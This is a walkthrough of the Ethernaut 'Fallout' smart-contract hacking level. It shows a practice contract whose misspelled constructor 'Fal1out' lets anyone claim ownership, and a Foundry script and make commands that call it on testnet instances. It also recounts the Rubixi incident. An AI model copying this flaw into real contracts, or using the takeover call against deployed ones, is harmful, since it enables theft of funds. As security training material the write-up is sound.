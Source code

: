 # Level 2 - Fallout ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/2" %}

### Level Setup

{% hint style="info" %}
Claim ownership of the contract below to complete this level.

&#x20; Things that might help

* Solidity Remix IDE
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Fallout.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
{% endcode %}

### Exploit

The contract uses an old method of defining the constructor by (attempting) to set it as the same name as the contract. In this instance, they made a mistake and there's a typo on the "constructor" which means it's different from the contract name, and therefore wasn't run on contract creation and can be run by anyone.

1. Call the function either using an interface or a `.call` with the function signature.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-2

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-2

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% @github-files/github-code-block url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level2.s.sol" fullWidth="false" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IFallout {
    function Fal1out() external payable;
}

// ================================================================
// │                      LEVEL 2 - FALLOUT                       │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IFallout targetContract = IFallout(targetContractAddress);

        vm.startBroadcast();
        targetContract.Fal1out{value: 0}();
        vm.stopBroadcast();
    }
}

// contract Exploit is Script, GetInstanceAddress {
//     function run() public {
//         address targetContractAddress = getInstanceAddress();

//         // Function signature
//         bytes memory payload = abi.encodeWithSignature("Fal1out()");

//         vm.startBroadcast();
//         (bool success, ) = targetContractAddress.call{value: 0}(payload);
//         require(success, "Transaction failed");
//         vm.stopBroadcast();
//     }
// }
```
{% endcode %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
{% endhint %}

### Notes

* This exploit occurred because before Solidity `v0.5.0` it was not mandatory to name the constructor `constructor`. This was updated with a [breaking change in the `v0.5.0` release](https://docs.soliditylang.org/en/latest/050-breaking-changes.html#constructors).
* Even though this contract uses `v0.6.0` this mistake still happened.
* Exploited contract: [https://etherscan.io/address/0xe82719202e5965Cf5D9B6673B7503a3b92DE20be](https://etherscan.io/address/0xe82719202e5965Cf5D9B6673B7503a3b92DE20be)

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_2_Fallout.md" %}
